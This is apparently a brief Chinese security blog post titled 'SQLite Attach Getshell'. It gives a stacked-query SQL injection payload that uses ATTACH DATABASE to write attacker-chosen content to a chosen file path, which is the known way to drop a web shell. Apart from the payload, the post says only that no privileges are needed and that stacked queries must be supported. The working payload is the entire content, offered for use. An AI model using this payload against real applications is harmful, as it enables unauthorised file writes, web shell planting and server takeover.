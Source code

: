 ```yaml
---
title: "SQLite Attach Getshell"
date: 2019-02-04T00:00:00+08:00
draft: false
tags: ['sqlite','sqli']
categories: ['web']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


SQLite Attach Getshell

<!--more-->

无权限要求.

```
;ATTACH DATABASE '路径' AS pwn ; CREATE TABLE pwn.exp (dataz text) ; INSERT INTO pwn.exp (dataz) VALUES ('内容'); --
```

需支持堆查询.